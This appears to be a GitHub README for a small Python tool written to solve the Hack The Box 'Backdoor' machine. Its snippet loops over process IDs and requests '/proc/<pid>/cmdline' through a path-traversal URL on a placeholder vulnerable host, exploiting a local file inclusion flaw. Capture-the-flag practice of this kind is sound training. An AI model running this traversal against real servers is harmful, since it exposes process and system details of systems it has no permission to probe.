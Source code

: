 # PID-bruteforce-via-LFI

## Vulnerability
I wrote this python script to help solve the backdoor machine in Hack The Box. The script was used for a brute forcing PID via LFI vulnerability. 


### Tool Overview

The tool Brute-force multiple requests trying a range of numbers for all the PID in the proc directory and filter the results based on the responses length  .

### How to Setup:
1. Change the URL paramenter with the LFI vulnerable site`

```py

for x in range(0,10000):

	url = "http://VULNERABLE.SITE.URL/../../../../../../proc/"+ str(x) +"/cmdline"
	r = requests.get(url)
	
```         

### Usage:
Use this command to run the python tool you just setup:

`Python3 PID-via-LFI.py`


| Screenshot |
|------------|
|![PID](https://user-images.githubusercontent.com/68829493/155852527-175a99b4-60d4-4704-9033-fb59b04c2fb5.png)|







